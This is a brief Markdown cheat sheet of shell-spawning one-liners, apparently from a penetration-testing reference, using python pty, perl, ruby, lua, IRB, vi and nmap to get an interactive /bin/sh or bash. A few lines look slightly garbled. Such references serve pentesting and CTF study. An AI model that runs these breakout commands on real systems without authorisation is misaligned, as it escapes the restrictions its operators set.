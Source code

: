 #### Shell Spawning
```

python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')

```

##### IRB

```
exec "/bin/sh"
```
##### vi

```
:!bash

:set shell=/bin/bash:shell
```

##### nmap
```
!sh
```
